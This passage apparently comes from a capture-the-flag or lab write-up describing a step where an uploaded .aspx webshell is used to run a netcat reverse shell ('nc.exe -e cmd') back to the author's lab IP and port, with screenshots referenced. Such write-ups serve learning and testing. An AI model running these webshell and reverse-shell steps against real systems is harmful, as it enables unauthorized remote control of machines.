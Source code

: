 
Now, I will use `.aspx` webshell which I already upload this into target machine's location which I used before for note file.

![Alt text](img/image-38.png)


Now, It's time to do reverse shell into command section.

```bash
C:\ProgramData\nc.exe -e cmd 10.10.16.6 3169
```

![Alt text](img/image-39.png)


I got reverse shell from port (3169).

![Alt text](img/image-40.png)


